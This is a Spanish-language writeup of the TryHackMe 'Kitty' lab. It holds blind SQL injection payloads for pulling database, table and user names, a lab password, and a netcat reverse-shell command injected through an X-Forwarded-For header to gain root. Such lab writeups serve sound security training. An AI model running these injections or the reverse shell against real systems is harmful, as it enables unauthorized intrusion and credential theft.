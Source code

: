 ```yaml
---
title: "Kitty  Writeup - Try-Hack-Me"
date: 2024-02-05
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Medium]
image: 
  path: assets/img/imagenes/Kitty.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Kitty banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![img](/assets/img/imagenes/Pasted image 20240204210908.png)

![img](/assets/img/imagenes/Pasted image 20240204211038.png)
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![img](/assets/img/imagenes/Pasted image 20240204213231.png)

![img](/assets/img/imagenes/Pasted image 20240204213305.png)

### Fuzzing con gobuster

![img](/assets/img/imagenes/Pasted image 20240204213332.png)
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli usando Burpsuite

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![img](/assets/img/imagenes/Pasted image 20240204220002.png)

intruder
![img](/assets/img/imagenes/Pasted image 20240204220113.png)

configuramos el payloads
![img](/assets/img/imagenes/Pasted image 20240204220220.png)
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![img](/assets/img/imagenes/Pasted image 20240204222627.png)

para el tercer posición obtenemos la letra "w"
![img](/assets/img/imagenes/Pasted image 20240204223225.png)
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

usaremos este parametro para obtener informacion sobre las tablas

```python
	username=kitty'+and+substring((select+table_name+from+information_schema.tables+where+table_schema="mywebsite"+limit+0,1),1,1)="a"+#&password=kitty
```

el primer resultado nos da la letra "s"
![img](/assets/img/imagenes/Pasted image 20240204235500.png)

ejecutamos el ataque cambiando la posición, en este caso nos da la letra "i"
![img](/assets/img/imagenes/Pasted image 20240205000151.png)
tenemos que hacer esto hasta sacar el nombre de la tabla

```python
	username=kitty'+AND+SUBSTRING((SELECT+username+from+siteusers+LIMIT+0,1),1,1)="a"+#&password=kitty
```

sacamos carácter de la posición 4 "g"  
![img](/assets/img/imagenes/Pasted image 20240205001529.png)
hacemos esto desde la posición 1 hasta conseguir todos los caracteres

# ```python
#	username: kitty
#	password: L******Y #L0ng_Liv3_kittY
# ```

### ssh

![img](/assets/img/imagenes/Pasted image 20240205003102.png)

### Escalada de Privilegios

![img](/assets/img/imagenes/Pasted image 20240205004914.png)
parece que este script hace un guardado en logged de los intentos de sqli que se hacen en el panel de login de parte del desarrolador

conexion por ssh haciendo un port forwarding  
![img](/assets/img/imagenes/Pasted image 20240205005339.png)

### localhost:8080

![img](/assets/img/imagenes/Pasted image 20240205005619.png)
tenemos conexión por el puerto 8080 en el que vemos la web de parte del desarrollador

### Burpsuite
usamos la inyeccion sqli para que esta informacion se guarde en el archivo logged y agregamos la linea

```python
	X-Forwarded-For: $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.157.7 7890 >/tmp/f)
```

![img](/assets/img/imagenes/Pasted image 20240205011158.png)
esperamos un rato a que se haga el guardado.

### WE ARE ROOT

![img](/assets/img/imagenes/Pasted image 20240205012010.png)
